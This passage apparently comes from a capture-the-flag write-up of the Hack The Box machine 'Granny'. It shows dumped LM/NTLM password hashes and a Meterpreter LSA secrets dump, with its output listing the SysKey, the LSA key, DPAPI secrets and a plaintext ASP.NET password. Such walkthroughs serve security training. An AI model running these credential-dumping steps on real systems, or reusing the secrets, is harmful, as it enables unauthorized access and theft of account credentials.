 ```text title="Output"
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c
```

## MSF - Meterpreter LSA Secrets Dump

```text
lsa_dump_secrets
```

```text title="Output"
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
    m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
cur/hex : 00 f2 d1 31 e2 11 d3 01
```